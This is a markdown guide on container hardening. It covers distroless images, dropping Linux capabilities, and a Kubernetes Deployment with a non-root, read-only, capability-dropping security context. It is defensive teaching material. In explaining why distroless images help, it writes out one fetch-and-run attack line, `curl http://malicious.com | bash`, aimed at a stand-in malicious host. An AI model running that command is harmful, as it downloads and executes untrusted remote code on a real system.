

# Track 01 // Container Security, Hardening & Distroless Execution

Hardening containers requires removing all unnecessary binaries (e.g., shells, package managers, compilers), dropping Linux capabilities, and enforcing read-only root filesystems.

---

## 1. Distroless Container Architecture

Distroless images contain only the application and its runtime dependencies. They do not contain package managers (`apt`, `apk`), shells (`bash`, `sh`), or coreutils (`ls`, `cat`, `curl`).



### Security Advantages:
1. **Zero Attacker Tooling**: If an attacker achieves Remote Code Execution (RCE), they cannot run `curl http://malicious.com | bash` because neither `curl` nor `bash` exists.
2. **Minimal CVE Surface**: Drastically fewer packages means near-zero CVE vulnerability alerts in security scanners.

---

## 2. Linux Capabilities Hardening in Docker & Kubernetes

By default, Docker grants containers a subset of Linux capabilities (e.g., `CAP_CHOWN`, `CAP_NET_BIND_SERVICE`). Security best practice dictates **dropping all capabilities** and adding back only what is strictly required.

### Kubernetes Pod Security Context Hardening:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: secure-microservice
  namespace: production
spec:
  replicas: 3
  template:
    spec:
      securityContext:
        runAsNonRoot: true
        runAsUser: 10001
        runAsGroup: 10001
        fsGroup: 10001
        seccompProfile:
          type: RuntimeDefault
      containers:
        - name: app
          image: ghcr.io/enterprise/secure-microservice:v1.4.2
          securityContext:
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
            capabilities:
              drop:
                - ALL
          volumeMounts:
            - name: tmp-volume
              mountPath: /tmp
      volumes:
        - name: tmp-volume
          emptyDir: {}
```
